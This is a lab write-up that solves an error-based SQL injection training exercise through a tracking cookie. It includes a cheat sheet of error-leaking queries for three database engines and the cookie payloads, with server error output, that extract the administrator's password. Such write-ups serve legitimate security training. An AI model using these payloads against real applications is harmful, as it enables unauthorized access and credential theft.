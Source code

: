 # Description
This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.
# Solution
## Cheatsheet

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

| DB         | Description                                                                                                                 |
| ---------- | --------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret') > Conversion failed when converting the varchar value 'secret' to data type int.` |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int) > invalid input syntax for integer: "secret"`                     |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) > XPATH syntax error: '\secret'`               |

1) **Test if the SQL injection vulnerability exists:**
```
Cookie: TrackingId=Nd2ctiZQt4mwEuku'
```
=> 500 internal server error.

```
Cookie: TrackingId=Nd2ctiZQt4mwEuku'--
```
Or:
```
Cookie: TrackingId=Nd2ctiZQt4mwEuku''
```
=> 200 response code.
**-> SQL injection vulnerability exists**.

2) **Verify whether error-based SQL injection is visible:**
```
' AND CAST((SELECT 1) AS int)--
```

```
ERROR: argument of AND must be type boolean, not type integer
Position: 63
```
=> 500 internal server error.
-> Cause it returns `' AND 1` (error) => we must change to **boolean type** (True, False).

```
' AND 1=CAST((SELECT 1) AS int)--
```
=> 200 response code as we give correct type.

3) **Determine the existence of** `administrator` **user:**
```
' AND 1=CAST((SELECT username FROM users) AS int)--
```
=> 500 internal server error.
```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'nTiQUSaeDU2zGKXX' AND 1=CAST((SELECT username FROM users LIM'.Expected char
```
-> The return reports that the query is **truncated**, meaning the length exceeds the limit.

Test again with shorter length by reducing the cookie.
```
Cookie: TrackingId=zEY' AND 1=CAST((SELECT username FROM users) AS int)--
```
=> 500 internal server error.
```
ERROR: more than one row returned by a subquery used as an expression
```
->  More than one row returned -> Use `LIMIT` to reduce to 1.

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

```
ERROR: invalid input syntax for type integer: "administrator"
```
=>  The all entries of `username` field is in string format -> changing format to integer will return error.
=> The visible report have shown the existing user - `administrator` as cannot change its type.

4) Leak the password of admin user:
```
Cookie: TrackingId=' AND 1=CAST((SELECT username,password FROM users LIMIT 1) AS int)--
```

```
ERROR: invalid input syntax for type integer: "h7ydwsapv24sxfxeomrd"
```

=> Same to `username` field, cannot change the type of entries in `password` field.